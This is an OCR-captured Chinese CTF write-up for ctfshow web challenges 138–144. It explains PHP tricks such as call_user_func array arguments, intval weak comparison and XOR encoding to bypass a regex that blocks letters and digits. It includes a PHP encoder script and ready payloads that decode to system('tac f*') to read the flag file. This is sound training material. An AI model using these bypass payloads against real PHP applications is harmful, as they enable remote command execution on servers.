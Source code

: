 # 138 call_user_func()数组参数

```
POST: ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```

# 139 bash盲注

python脚本

140 

# 140 intval 弱类型比较

> 正则表示必须要以数字字母开头结尾，我们可以找一些可以无参的函数
>
> intval是 弱类型 比较 会把非数字字符转化为0

# 141异或绕过

> 数字和运算符是可以一起执行命令的，如`1+phpinfo()+1;`是可以显示phpinfo页面的，GET传入的只是字符串“1+phpinfo()+1”;是不能直接执行命令的，经过eval处理后就变成了可以执行命令，`if(preg_match('/^\W+$/', $v3)){`的存在我们只能传入非数字字母，不过php7可以用`（‘phpinfo’)()`动态调用函数，可以用异或绕过

异或脚本：

```php
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
for ($i = 0; $i < strlen($a); $i++) {
    echo "%".dechex(ord($a[$i])^0xff);
}
echo "^";
for ($i = 0; $i < strlen($a); $i++) {
    echo "%ff";
}
payload: ?v1=1&v2=1&v3=%2b(%8c%86%8c%8b%9a%92^%ff%ff%ff%ff%ff%ff)(%8b%9e%9c%df%99%d5^%ff%ff%ff%ff%ff%ff)%2b

1+system tac f*+1
```

143 同141

```
?v1=1&v2=1&v3=*(%8c%86%8c%8b%9a%92^%ff%ff%ff%ff%ff%ff)(%8b%9e%9c%df%99%d5^%ff%ff%ff%ff%ff%ff)*
```

144 同 141

```
?v1=1&v2=(%8c%86%8c%8b%9a%92^%ff%ff%ff%ff%ff%ff)(%8b%9e%9c%df%99%d5^%ff%ff%ff%ff%ff%ff)&v3=-
```
